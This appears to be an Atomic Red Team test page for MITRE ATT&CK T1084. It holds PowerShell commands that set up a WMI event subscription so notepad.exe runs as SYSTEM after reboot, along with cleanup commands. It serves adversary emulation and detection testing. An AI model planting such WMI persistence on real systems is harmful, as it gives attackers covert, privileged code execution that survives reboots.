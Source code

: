 # T1084 - Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1084)
<blockquote>Windows Management Instrumentation (WMI) can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system. Adversaries may attempt to evade detection of this technique by compiling WMI scripts into Windows Management Object (MOF) files (.mof extension). (Citation: Dell WMI Persistence) Examples of events that may be subscribed to are the wall clock time or the computer's uptime. (Citation: Kazanciyan 2014) Several threat groups have reportedly used this technique to maintain persistence. (Citation: Mandiant M-Trends 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence](#atomic-test-1---persistence)


<br/>

## Atomic Test #1 - Persistence
Run from an administrator powershell window

After running, reboot the victim machine. After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

#### Cleanup Commands:
```powershell
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding" -ErrorAction SilentlyContinue

$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```





<br/>
